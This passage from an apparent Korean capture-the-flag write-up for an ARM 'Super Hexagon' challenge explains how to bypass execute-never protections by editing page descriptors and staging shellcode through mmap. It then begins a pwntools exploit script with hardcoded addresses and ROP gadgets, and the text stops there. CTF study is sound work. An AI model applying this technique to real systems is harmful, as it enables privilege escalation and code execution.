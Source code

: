 ![arm_super_hexagon_translation](res/arm_super_hexagon_translation.png)

Page Descriptor 를 변경할 수 있으므로 UXN, PXN 이 모두 해제된 페이지를 만들 수 있다. 다만 RWX 영역은 EL2 에서 방지하므로 EL1 에서 mmap 으로 RW- 영역을 만들고 원하는 쉘 코드를 작성한 뒤 R-X 로 변경한 뒤에 Page Descriptor 를 변경해야 한다.

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
```